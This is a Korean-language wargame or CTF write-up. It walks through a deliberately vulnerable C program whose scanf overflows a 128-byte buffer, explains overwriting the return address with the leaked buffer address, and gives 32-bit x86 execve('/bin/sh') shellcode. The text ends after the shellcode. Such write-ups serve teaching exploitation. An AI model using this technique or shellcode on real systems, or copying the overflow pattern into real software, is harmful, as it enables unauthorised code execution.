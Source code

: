 # 문제 풀이 방법

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```
위 코드를 보면 `initialize()` 함수에서 `SIGALRM`을 발생시키고 30초가 지나면 `alarm_handler` 함수가 수행되어 `exit(-1);`에 의해 프로그램이 종료된다.  
따라서 30초가 넘어가기 전에 해당 프로그램을 익스플로잇하여 쉘코드를 실행해야한다.

이 문제에서는 scanf 함수의 취약점을 통해 익스플로잇 할 수 있다. buf의 크기는 0x80(128)인데 141 바이트 크기의 string을 입력받고 있기 때문에, `sfp`와 `return address`를 덮어쓸 수 있다.  
해당 코드에서 `printf("buf = (%p)\n", buf);`를 통해 buf의 주소를 print해주는데,

1. buffer의 주소를 return address에 넣고
2. buffer에는 쉘코드를 삽입하면 쉘을 얻을 수 있다.

# 쉘코드 작성

우리가 작성하고자 하는 쉘 코드는 `execve('bin/sh', 0, 0);`을 실행하여 쉘을 얻는 코드이다. 내용은 아래와 같다.

참고로 문제의 해당 실행 환경이 **i386(x86)** 이므로 32bit에 맞춰 어셈블리 코드를 작성해야한다. 
```
section .text
global _start

_start:
    xor eax,eax       ; 뒤에서 execve() 콜을 위해 eax를 0으로 초기화해주는 부분 (대부분 0이 들어있기 때문에 필수적이지는 않지만 권장)
    push 0x68732f     ; == push 0x0068732f
    push 0x6e69622f   ; should not end with 0x00 ex) push 0x69622f
    mov ebx, esp      ; arg0 : ebx = 'bin/sh'
    xor ecx, ecx      ; arg1 : ecx = 0
    xor edx, edx      ; arg2 : edx = 0
    mov al, 0x8       ; mov eax, 0x8도 가능하지만, 더 효율적인 작업을 위해 al에 0x8 대입
    inc al            ; eax = 0x9
    inc al            ; eax = 0xa
    inc al            ; eax = 0xb
    int 0x80          ; execve call 발생
``` 
  

